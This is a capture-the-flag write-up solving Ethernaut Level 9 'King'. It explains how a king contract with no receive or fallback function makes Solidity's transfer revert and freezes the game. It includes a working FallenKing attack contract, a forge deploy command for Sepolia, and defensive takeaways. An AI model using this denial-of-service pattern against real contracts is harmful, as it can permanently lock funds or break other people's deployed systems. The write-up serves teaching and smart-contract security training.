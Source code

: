 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/9-king.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 9 - King</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 9 - King](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-09-king)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [References](#references)

## Goals

<img src="../assets/requirements/9-king-requirements.webp" width="800px"/>

## The hack

In this level, the goal is to become the king and then make sure that the contract is not able to transfer the prize to the next king. In other words, we have to become king and then break the game.

This requires an understanding of how the now-considered deprecated `transfer` works in solidity. This function throws an error if the transfer fails, but doesn't return a boolean value. This means that if the transfer fails, the transaction will revert.

```javascript
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```

First, we need to check the `prize` function to see how much ether is required to pass the `require` statement and become king.

Now, that we are king, how can we make sure that no one else can dethrone us? How to make sure the `transfer()` function reverts systematically after us? The answer is pretty simple, we just need to make sure that our king contract can't receive any ether. As long as no `receive()` or `fallback()` function is defined, the contract will not be able to receive any ether via the King contract, which will effectively prevent anyone from becoming the new king after us.

## Solution

Deploy a contract that can't receive ether via the "normal" way (no `receive()` or `fallback()` functions).

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IKing {
    function prize() external returns (uint256);
}

contract FallenKing {
    address private immutable king;

    constructor(address _king) {
        king = _king;
    }

    function attack() external payable {
        uint256 prize = IKing(king).prize();
        (bool success, ) = king.call{value: prize}("");
        require(success, "Transfer failed");
    }
}
```

Then, you can use forge scripts to deploy this contract and call the `attack` function:

```bash
forge script script/09_King.s.sol:PoC --rpc-url sepolia --broadcast --watch
```

## Takeaway

- `send` and `transfer` are now considered deprecated. They should be replaced by `call` with a proper Check-Effect-Interaction pattern to prevent re-entrancy.
- <b>External calls must be used with caution and must handle errors properly.</b>

## References

https://blog.chain.link/defi-security-best-practices/
https://www.kingoftheether.com/postmortem.html

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
